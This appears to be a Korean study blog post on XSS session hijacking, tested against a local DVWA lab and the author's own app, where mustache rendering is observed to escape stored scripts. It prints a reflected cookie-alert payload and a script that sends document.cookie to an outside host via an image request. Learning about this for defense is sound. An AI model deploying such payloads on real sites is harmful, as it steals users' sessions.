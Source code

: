 

### 상세 내용

[참조](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)

**유저 세션 Hijacking**



**공격 방법**은 크게 두가지가 있다.

1. 게시판에서 Script태그를 저장하는 방식. (위 예시)
2. uri 파라미터로 스크립트를 전송하는 방식.

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>
```

위의 문법은 클라이언트 브라우저에 현재 쿠기 정보를 띄우게 한다.



**Hijacking**

이 정보를 어떻게 해커에게 전송하게 만들까?

아래와 같은 방식을 이용하면 된다

```html
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
```

위 스크립트가 실행되면, javascript는 요청을 실행하고, 그때 payload로 클라이언트의 쿠키정보를 전송한다.



### 적용 및 테스트

<br/>

![image-20190616163318971](/Users/dadadamarine/Desktop/study/blog/dadadamarine.github.io/assets/images/image-20190616163318971.png)

<br/>

html태그에 `<script>alert("ss");</script>` 태그를 입력했을경우. (스크립트가 실행된다.)

<br/>



![image-20190616163405943](/Users/dadadamarine/Desktop/study/blog/dadadamarine.github.io/assets/images/image-20190616163405943.png)

<br/>

![image-20190616181612763](/Users/dadadamarine/Desktop/study/blog/dadadamarine.github.io/assets/images/image-20190616181612763.png)

<br/>

게시글로 저장된 스크립트를 mustache 렌더링 언어를 통해 렌더링 한 경우. (스크립트가 실행되지 않는다.)

<br/>

왜 이런걸까?
